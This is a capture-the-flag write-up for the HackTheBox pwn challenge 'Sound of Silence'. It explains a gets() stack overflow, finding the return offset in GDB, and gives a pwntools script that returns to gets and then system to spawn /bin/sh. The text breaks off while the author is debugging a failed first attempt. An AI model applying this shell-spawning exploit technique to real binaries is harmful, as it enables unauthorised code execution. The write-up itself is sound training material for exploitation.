# Sound of Silence

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c00cb1d6-aa6b-4bff-b60d-65115285d01f)


> Write-up author: jon-brandy

## Lessons Learned:
1. Stack-Based Exploitation.
2. Manipulate return address to gets(), then use system() as it's argument.

## DESCRIPTION:

<p align="justify">Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e40093d-ac65-4955-9bb6-93899c3d2a2f)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e53e26ae-0d6c-457f-a5d7-e643dec8c82e)


2. Upon reviewing the decompiled code on Ghidra, it's very clear that the vuln reside at the **gets()** usage.
3. There are no bound checking, even the canary and PIE is dead. Also there is a **system()** call.
4. Hence, it's easier for us to obtain RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/921676d0-52ff-4216-ac33-93d6275740da)


5. BUT the problem here, remembering it does call system(), hence we can't identify RIP offset like usual with it.
6. Although we can do it manually, but still I preferred using GDB.
7. The method is to do **set follow-fork-mode parent** at GDB.
8. So now the GDB is following the parent process, not the child process.
9. Simply send +16 bytes or even more than the available buffers to hold by the input variable.
10. We shall gained segfault.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4860fb58-d5a6-4801-b9fc-b20a8200d512)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cbbd5a52-3c99-44fb-9230-93511d71b80c)


11. Nice! Now, what are our objectives? There is no **write()**, **read()**, **printf()**, or **puts()** call.
12. BUT there is **system()**.
13. Our objective is to return to `gets@plt`, then pass `system()` as it's arg.
14. Finally, simply passing the `/bin/sh\x00` strings.
15. Here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

p = flat([
    cyclic(40),
    elf.sym['gets'],
    elf.sym['system']
])

sh.sendline(p)
sh.sendline(b'/bin/sh\x00')

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3918398-f44c-43fb-8cc3-cb832f15354e)


16. Interesting, we failed to get shell. Based from the received bytes, it said `/bin.sh` not found.
17. Noticed our `/` is bit-flipped (?)
18. Upon debugging our input by set breakpoints at **main()**, we found an interesting pointer stored at the RDI upon step into the **gets()** call.

